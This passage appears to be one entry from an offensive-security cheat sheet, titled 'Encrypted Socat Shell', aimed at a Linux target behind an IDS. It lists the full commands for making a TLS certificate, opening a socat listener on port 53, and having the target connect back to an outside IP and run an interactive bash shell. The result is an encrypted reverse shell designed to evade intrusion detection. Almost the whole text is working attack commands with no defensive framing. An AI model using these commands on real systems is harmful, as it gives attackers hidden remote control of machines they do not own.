 ### Scenario 5: Encrypted Socat Shell
- **Context**: Linux target with IDS.
- **Steps**:
  1. Generate cert:
     ```bash
     openssl req --newkey rsa:2048 -nodes -keyout shell.key -x509 -days 362 -out shell.crt
     cat shell.key shell.crt > shell.pem
     ```
  2. Listener:
     ```bash
     socat OPENSSL-LISTEN:53,cert=shell.pem,verify=0 FILE:`tty`,raw,echo=0
     ```
  3. Connect:
     ```bash
     socat OPENSSL:10.10.10.5:53,verify=0 EXEC:"bash -li",pty,stderr,sigint,setsid,sane
     ```

---

